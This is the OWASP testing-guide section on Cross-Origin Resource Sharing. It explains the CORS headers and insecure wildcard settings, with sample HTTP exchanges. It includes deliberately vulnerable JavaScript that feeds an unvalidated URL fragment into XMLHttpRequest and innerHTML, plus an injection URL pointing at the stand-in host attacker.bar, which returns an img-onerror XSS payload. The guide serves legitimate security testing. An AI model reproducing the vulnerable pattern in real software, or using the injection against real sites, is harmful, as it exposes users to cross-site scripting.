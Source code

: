 # Testing for Cross Origin Resource Sharing

## Summary

[Cross origin resource sharing](https://en.wikipedia.org/wiki/Cross-origin_resource_sharing) (CORS) is a mechanism that enables a web browser to perform cross-domain requests using the XMLHttpRequest L2 API in a controlled manner. In the past, the XMLHttpRequest L1 API only allowed requests to be sent within the same origin as it was restricted by the same origin policy.

Cross-origin requests have an origin header that identifies the domain initiating the request and is always sent to the server. CORS defines the protocol to use between a web browser and a server to determine whether a cross-origin request is allowed. HTTP [headers](https://en.wikipedia.org/wiki/Cross-origin_resource_sharing#Headers) are used to accomplish this.

The [W3C CORS specification](https://www.w3.org/TR/cors/) mandates that for non simple requests, such as requests other than GET or POST or requests that uses credentials, a pre-flight OPTIONS request must be sent in advance to check if the type of request will have a bad impact on the data. The pre-flight request checks the methods and headers allowed by the server, and if credentials are permitted. Based on the result of the OPTIONS request, the browser decides whether the request is allowed or not.

### Origin & Access-Control-Allow-Origin

The origin header is always sent by the browser in a CORS request and indicates the origin of the request. The origin header can not be changed from JavaScript however relying on this header for Access Control checks is not a good idea as it may be spoofed outside the browser, so you still need to check that application-level protocols are used to protect sensitive data.

Access-Control-Allow-Origin is a response header used by a server to indicate which domains are allowed to read the response. Based on the CORS W3 Specification it is up to the client to determine and enforce the restriction of whether the client has access to the response data based on this header.

From a penetration testing perspective you should look for insecure configurations as for example using a '\*' wildcard as value of the Access-Control-Allow-Origin header that means all domains are allowed. Other insecure example is when the server returns back the origin header without any additional checks, what can lead to access of sensitive data. Note that this configuration is very insecure, and is not acceptable in general terms, except in the case of a public API that is intended to be accessible by everyone.

### Access-Control-Request-Method & Access-Control-Allow-Method

The Access-Control-Request-Method header is used when a browser performs a preflight OPTIONS request and let the client indicate the request method of the final request. On the other hand, the Access-Control-Allow-Method is a response header used by the server to describe the methods the clients are allowed to use.

### Access-Control-Request-Headers & Access-Control-Allow-Headers

These two headers are used between the browser and the server to determine which headers can be used to perform a cross-origin request.

### Access-Control-Allow-Credentials

This header as part of a preflight request indicates that the final request can include user credentials.

### Input validation

XMLHttpRequest L2 (or XHR L2) introduces the possibility of creating a cross-domain request using the XHR API for backwards compatibility. This can introduce security vulnerabilities that in XHR L1 were not present. Interesting points of the code to exploit would be URLs that are passed to XMLHttpRequest without validation, specially if absolute URLS are allowed because that could lead to code injection. Likewise, other part of the application that can be exploited is if the response data is not escaped and we can control it by providing user-supplied input.

### Other headers

There are other headers involved like Access-Control-Max-Age that determines the time a preflight request can be cached in the browser, or Access-Control-Expose-Headers that indicates which headers are safe to expose to the API of a CORS API specification, both are response headers specified in the CORS W3C document.

## How to Test

A tool such as [OWASP Zed Attack Proxy Project](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project) can enable testers to intercept HTTP headers, which can reveal how CORS is used. Testers should pay particular attention to the origin header to learn which domains are allowed. Also, manual inspection of the JavaScript is needed to determine whether the code is vulnerable to code injection due to improper handling of user supplied input. Below are some examples:

### Example 1: Insecure response with wildcard '\*' in Access-Control-Allow-Origin

Request (note the 'origin' header:)

```txt
GET http://attacker.bar/test.php HTTP/1.1
Host: attacker.bar
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.8; rv:24.0) Gecko/20100101 Firefox/24.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://example.foo/CORSexample1.html
Origin: http://example.foo
Connection: keep-alive
```

Response (note the 'Access-Control-Allow-Origin' header:)

```txt
HTTP/1.1 200 OK
Date: Mon, 07 Oct 2013 18:57:53 GMT
Server: Apache/2.2.22 (Debian)
X-Powered-By: PHP/5.4.4-14+deb7u3
Access-Control-Allow-Origin: *
Content-Length: 4
Keep-Alive: timeout=15, max=99
Connection: Keep-Alive
Content-Type: application/xml

[Response Body]
```

### Example 2: Input validation issue, XSS with CORS

This code makes a request to the resource passed after the `#` character in the URL, initially used to get resources in the same server.

Vulnerable code:

```html
<script>
    var req = new XMLHttpRequest();

    req.onreadystatechange = function() {
        if(req.readyState==4 && req.status==200) {
            document.getElementById("div1").innerHTML=req.responseText;
        }
    }

    var resource = location.hash.substring(1);
    req.open("GET",resource,true);
    req.send();
</script>

<body>
    <div id="div1"></div>
</body>
```

For example, a request like this will show the contents of the profile.php file:

`http://example.foo/main.php#profile.php`

Request and response generated by this URL:

```html
GET http://example.foo/profile.php HTTP/1.1
Host: example.foo
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.8; rv:24.0) Gecko/20100101 Firefox/24.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://example.foo/main.php
Connection: keep-alive

HTTP/1.1 200 OK
Date: Mon, 07 Oct 2013 18:20:48 GMT
Server: Apache/2.2.16 (Debian)
X-Powered-By: PHP/5.3.3-7+squeeze17
Vary: Accept-Encoding
Content-Length: 25
Keep-Alive: timeout=15, max=99
Connection: Keep-Alive
Content-Type: text/html

[Response Body]
```

Now, as there is no URL validation we can inject a remote script, that will be injected and executed in the context of the example.foo domain, with a URL like this:

`http://example.foo/main.php#http://attacker.bar/file.php`

Request and response generated by this URL:

```txt
GET http://attacker.bar/file.php HTTP/1.1
Host: attacker.bar
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.8; rv:24.0) Gecko/20100101 Firefox/24.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://example.foo/main.php
origin: http://example.foo
Connection: keep-alive

HTTP/1.1 200 OK
Date: Mon, 07 Oct 2013 19:00:32 GMT
Server: Apache/2.2.22 (Debian)
X-Powered-By: PHP/5.4.4-14+deb7u3
Access-Control-Allow-Origin: *
Vary: Accept-Encoding
Content-Length: 92
Keep-Alive: timeout=15, max=100
Connection: Keep-Alive
Content-Type: text/html

Injected Content from attacker.bar <img src="#" onerror="alert('Domain: '+document.domain)">
```
j